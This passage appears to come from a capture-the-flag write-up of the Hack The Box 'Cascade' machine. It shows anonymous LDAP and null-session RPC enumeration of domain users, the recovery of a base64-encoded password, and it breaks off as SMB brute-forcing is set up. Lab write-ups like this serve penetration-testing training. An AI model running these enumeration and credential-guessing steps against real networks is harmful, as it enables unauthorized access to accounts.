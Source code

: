 ## LDAP Enumeration ⤵️

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Cascade]
└─$ ldapsearch -x -H ldap://10.10.10.182 -b 'dc=cascade,dc=local' > ldapsearch.txt
```
{: .nolineno}
{: .nolineno}

![Untitled](Cascade/Untitled.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Cascade]
└─$ echo "clk0bjVldmE=" | base64 -d 
rY4n5eva
```
{: .nolineno}
{: .nolineno}

I got a password.

## RPC Enumeration ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Cascade]
└─$ rpcclient 10.10.10.182 -U '' -N
rpcclient $> enumdomusers
user:[CascGuest] rid:[0x1f5]
user:[arksvc] rid:[0x452]
user:[s.smith] rid:[0x453]
user:[r.thompson] rid:[0x455]
user:[util] rid:[0x457]
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]
rpcclient $>
```
{: .nolineno}
{: .nolineno}

I think I got some more users from rpcclient and also through ldapsearch samaccountname so I gathered all the usernames in a single file named as `users1.txt`.

Lets try bruteforcing the SMB service with the users wordlist `users1.txt` file and with this password →
